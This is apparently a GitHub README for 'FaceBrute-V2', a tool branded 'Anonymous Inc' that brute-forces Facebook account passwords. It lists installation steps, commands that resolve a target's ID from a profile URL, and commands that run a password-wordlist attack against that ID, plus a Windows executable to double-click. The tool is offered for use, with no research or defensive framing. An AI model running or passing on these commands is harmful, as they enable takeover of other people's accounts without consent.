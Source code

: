 # FaceBrute-V2
== A N O N Y M O U S  I N C ==

## Get Started
Install first
> https://www.python.org/downloads/
> git clone https://github.com/IyoRTML/FaceBrute-V2.git


## Run in Command Line
> pip install requests
> pip install mechanize
> py.exe main.py -g https://www.facebook.com/Username
> py.exe main.py -t [This Target ID] -w passwords.txt


## Run in FaceBrute.EXE
> Double click FaceBrute.exe

![Anonymous INC](https://raw.githubusercontent.com/IyoRTML/FaceBrute-V2/main/img/facebruteanonymousinc.jpg)
